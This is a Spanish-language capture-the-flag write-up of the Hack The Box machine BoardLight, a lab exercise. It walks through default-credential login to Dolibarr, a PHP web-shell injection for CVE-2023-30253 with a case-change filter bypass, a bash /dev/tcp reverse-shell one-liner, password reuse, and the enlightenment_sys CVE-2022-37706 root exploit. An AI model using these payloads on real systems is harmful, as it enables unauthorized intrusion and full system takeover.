


-------------------


BoardLight es una maquina de dificultad fácil que se encuentra retirada en la plataforma de Hack The Box, donde podremos loguearnos en Dolibar por credenciales por defecto, una vez que accedemos podemos explotar CVE-2023-30253 podemos optar por usar el exploit o hacerlo manualmente(Yo decide hacerlo manualmente), una vez dentro pivotaremos al usuario haciendo uso de reutilización de credenciales  y para escalar privilegios explotaremos el CVE-2022-37706 de enlightenment

--------------------
# [](#header-1)Reconocimiento 
Comienzo con un nmap para saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 01:04 -03
Initiating SYN Stealth Scan at 01:04
Scanning 10.10.11.11 [65535 ports]
Discovered open port 80/tcp on 10.10.11.11
Discovered open port 22/tcp on 10.10.11.11
Completed SYN Stealth Scan at 01:04, 16.77s elapsed (65535 total ports)
Nmap scan report for 10.10.11.11
Host is up, received user-set (0.22s latency).
Scanned at 2024-10-02 01:04:31 -03 for 17s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 6
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares 

Veo que tiene el puerto 22, 80 por lo tanto voy a hacer un escaneo mas exhaustivo sobre estos puertos
```bash
❯ nmap -p22,80 -sCV 10.10.11.11 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 01:05 -03
Nmap scan report for 10.10.11.11
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- *-p22,80*: Le indicamos que queremos escanear los puerto 22,80
- *-sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80
- *-oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap

Veo que existe una pagina web, veré que tecnologías corren por detrás, veo un correo al parecer cuanta con un dominio `board.htb` pero no veo nada mas que sea interesante, por lo tanto veré la web 
```bash
❯ whatweb http://10.10.11.11
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```
La pagina es estática porque haciendo `hovering` por home,about, what we do , contact us, me lleva todo dentro de la misma pagina


Aquí veo de donde whatweb saca el correo, por lo tanto introduciré el dominio en el `/etc/hosts`


Porque de primeras mi maquina no sabe lo que es `board.htb`


Ahora ingresando el dominio no me veo nada nuevo por lo tanto fuzzeare por subdominios existentes, tuve que quitar los resultados que me devolvían a cada rato `15949` caracteres
```bash
❯ wfuzz -c --hh=15949 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.board.htb' http://board.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"
```
tenemos el subdominio `crm` por lo tanto lo agrego al `/etc/hosts`, con `whatweb` vere las tecnologías que corren por detrás, lo que me llama la atención es que es un panel de login, Dolibarr que supongo que es un CMS ya investigare que es
```bash
❯ whatweb http://crm.board.htb
http://crm.board.htb [200 OK] Apache[2.4.41], Cookies[DOLSESSID_3dfbb778014aaf8a61e81abec91717e6f6438f92], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[DOLSESSID_3dfbb778014aaf8a61e81abec91717e6f6438f92], IP[10.10.11.11], JQuery, Meta-Author[Dolibarr Development Team], PasswordField[password], Script, Title[Login @ 17.0.0], UncommonHeaders[x-content-type-options,referrer-policy], X-Frame-Options[SAMEORIGIN]
```
Veo que efectivamente es un panel de login, veo la versión que es `17.0.0` investigare que es [Dolibarr](https://es.wikipedia.org/wiki/Dolibarr) 


Probare con las credenciales por defecto de Dolibarr 


Veo que con las credenciales por defecto deja loguearme, por lo que buscare si existe algun exploit para esta versión de Dolibarr


Veo que existe un [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) que por su descripci
on veo que se puede inyectar código PHP, entonces veré lo que hace el exploit.



--------------------------
### [](#header-3)Explotacion-User
Por lo que veo del exploit la explotación se puede hacer manual, lo primero es crear un `website`


Luego creare la pagina


En el código `HTML` solo pondré prueba, al ver por la pagina veo que no me reporta lo de prueba, quizás sea que falto incluir etiquetas 


Pero si voy a `Edit HTML source`


e inyecto un código PHP con el cual mediante el parámetro `cmd` pueda ejecutar comandos a nivel de sistema, al intentar `<?php system($_GET['cmd']); ?>` no me dejaba emplear system, pero para bypasear esta restricción solo debemos poner en mayúscula la H de php 


Una vez editado el código HTML e inyectando codigo PHP podemos visualizar la pagina y ver que si nos interpreta el codigo PHP


y contentando con & al final de la URL el parámetro cmd ,  puedo ejecutar comandos a nivel de sistema.
- Nota: la explotación se debe de hacer rápido ya que por detrás debe de existir una tarea cron que borra las paginas web, por lo tanto si eso sucede se deberá de hacer nuevamente todo el procedimiento.


Por lo tanto solo quedaría ponernos en escucha y enviarnos una reverse Shell con el típico one liner
`bash -c "bash >%26 /dev/tcp/10.10.16.2/443 0>%261"` 


una vez que recibo la reverse shell, hago el tratamiento de la TTY para tener una consola totalmente interecativa
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ script /dev/null -c bash
<htb/htdocs/public/website$ script /dev/null -c bash            
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ^Z # CTRL+Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ export TERM=xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ stty rows 28 columns 129
```
Veo que esto como www-data y existe un usuario larissa, veré la forma de pivotar de usuario, veo que en la ruta `/var/www/html/crm.board.htb/htdocs/conf` existe un archivo conf.php donde veo una contraseña que sirve para conectarse a la db



Primero intentare ver si se esta reutilizando contraseña, y efectivamente es así, por lo tanto ya podemos ver la flag del usuario.
```bash
www-data@boardlight:/home$ ls
larissa
www-data@boardlight:/home$ su larissa
Password: 
larissa@boardlight:/home$ 
larissa@boardlight:~$ cat user.txt 
********************68898a
```

---------------
## [](#header-#header-2)Root
Ahora veré la manera de escalar privilegios, al ver por permisos SUID, veo [Enlightenment](http://www.linuxfocus.org/Castellano/July1998/article52.html) que me llama bastante la atencion


Puedo ver la versión por lo tanto veré si existe algún exploit para escalar privilegios 


Veo que existe el [CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) con una prueba de concepto de como se encontró esta vulnerabilidad donde `enlightenment_sys`  maneja incorrectamente las rutas de acceso que comienzan con una subcadena `/dev/..`, en el articulo se explica bien como es la inyección


Voy a replicar la explotacion.Por lo tanto por lo que veo primero tengo que crear `/tmp/net`. También necesito `/tmp/;/tmp/exploit` que aquí será donde se produce la inyección  , `;` Tiene que existir como directorio
```bash
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ mkdir -p /tmp/net
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ find '/tmp/;' -ls
   174408      4 drwxrwxr-x   3 larissa  larissa      4096 Oct  1 21:56 /tmp/;
   174409      4 drwxrwxr-x   3 larissa  larissa      4096 Oct  1 21:56 /tmp/;/tmp
   174410      4 drwxrwxr-x   2 larissa  larissa      4096 Oct  1 21:56 /tmp/;/tmp/exploit
```

```bash
echo "/bin/bash" > /tmp/exploit
chmod +x /tmp/exploit
```

```bash
larissa@boardlight:~$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.'
root@boardlight:/home/larissa#
```
Ya estamos como root y podemos leer la flag de root
```bash
root@boardlight:/root# cat root.txt 
*********************a39e7a9f
```
